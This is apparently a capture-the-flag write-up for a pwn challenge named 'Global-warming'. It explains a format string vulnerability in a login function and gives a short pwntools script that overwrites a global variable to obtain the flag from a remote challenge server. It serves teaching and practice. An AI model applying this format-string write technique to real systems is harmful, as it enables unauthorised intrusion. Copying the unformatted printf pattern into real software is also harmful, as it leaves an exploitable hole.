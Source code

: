 ```yaml
---
layout: post
title: "Global-warming"
author: "AnandSaminathan"
tags: ['Pwn']
---
```


**Files**
- [global-warming]({{site.baseurl}}/assets/Global-warming/global-warming)

## Solution

The binary contains two functions - `main` and `login`, the `main` function reads an input and passes it to `login`. On decompiling login using Ghidra:
```cpp
void login(int32_t arg_ch)
{
    int32_t unaff_EBX;
    int32_t var_4h;
    
    __x86.get_pc_thunk.bx();
    printf(arg_ch);
    if (admin == 0xb4dbabe3) {
        system("cat flag.txt");
    } else {
        printf("You cannot login as admin.");
    }
    return;
}

```

It is clear that `printf` prints the input without any format string, so the binary has format string vulnerability. The input has to some how overwrite `admin` to `0xb4dbabe3`  which is a global variable at `0x804c02c`. This can be done using `%n` or `%hn` format string. But instead it is easier to do it using pwntools' `fmstr_payload` function, which only requires the location of format string from the stack pointer and \<address, value> pairs of the variables to overwritten as a dict.
In this case, the format string is 12 positions away from the stack pointer (found manually by using `%x`'s as inputs). This script worked:

```python
from pwn import *

elf = ELF('./global-warming')
io = remote("chall.csivit.com", 30023)

admin = elf.symbols['admin']
magic = 0xb4dbabe3

io.sendline(fmtstr_payload(12, {admin : magic}))
io.recvline()
print(io.recvall())
```

## Flag

```
csictf{n0_5tr1ng5_@tt@ch3d}
```
